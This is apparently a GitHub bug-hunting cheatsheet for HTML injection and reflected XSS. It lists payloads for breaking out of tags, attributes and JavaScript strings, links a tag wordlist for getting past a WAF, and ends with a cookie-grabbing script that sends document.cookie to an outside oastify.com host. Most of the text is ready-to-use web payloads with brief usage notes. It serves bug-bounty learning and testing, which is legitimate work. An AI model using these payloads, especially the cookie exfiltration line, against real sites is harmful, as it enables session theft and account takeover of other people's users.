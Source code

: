 ### For html Injection
```
<h1>cyborg71</h1>
"><h1>cyborg71</h1>
<a href="https://google.com"></a>
```
# Testing Alert
```js
<script>alert(1337)</script>
><script>alert(1337)</script>
">cyborg71<script>alert(1337)</script>
<svg/ onload=alert(1337)//
<Svg/OnLoad=(confirm)(1337)<!--
<img src=x onerror=alert(1337)>
';alert(1337)//
y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1337)%3E
```
![Screenshot from 2024-06-22 21-24-55](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/a4b3b27e-3e78-438e-90c1-38f3986f5a79)

![Screenshot from 2024-06-22 21-30-13](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/cd6ea4c0-17df-448a-bc1a-caa4d293ee80)

![Screenshot from 2024-06-22 21-34-37](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/2938507e-12e8-438d-ad7d-d1ec7d65a963)

![Screenshot from 2024-06-22 21-36-45](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/06045884-2e15-4998-bfe6-057cf34dbe92)

![Screenshot from 2024-06-22 21-38-04](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/925458b2-619b-4545-a675-81ee043cd00c)

#### For testing.
```js
"><h1>cyborg.71</h1>
<script onclick="alert(1337)">
<a href="javascript:alert('XSS')">Click me</a>
<img src=https://i.imgflip.com/8uo0t9.jpg>
```
# Reflected XSS into attribute with angle brackets HTML-encoded
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
  ![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
"onmouseover="alert(1)
```
![Screenshot from 2024-06-22 22-10-29](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5f0c53d6-0489-483d-a82d-373456ee9233)
# Reflected XSS into a JavaScript string with angle brackets HTML encoded
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
'-alert(1)-'
```
Finally the code will look like this after response.
![Screenshot from 2024-06-23 19-29-18](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5387641e-5ee7-4dca-89a3-e1253a426bc5)
# Reflected XSS into HTML context with most tags and attributes blocked
If tags are blocked by WAF, try this wordlist to detect an unblocked tag via burp intruder.
[xss-tags.txt](https://github.com/user-attachments/files/15944758/xss-tags.txt)
#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
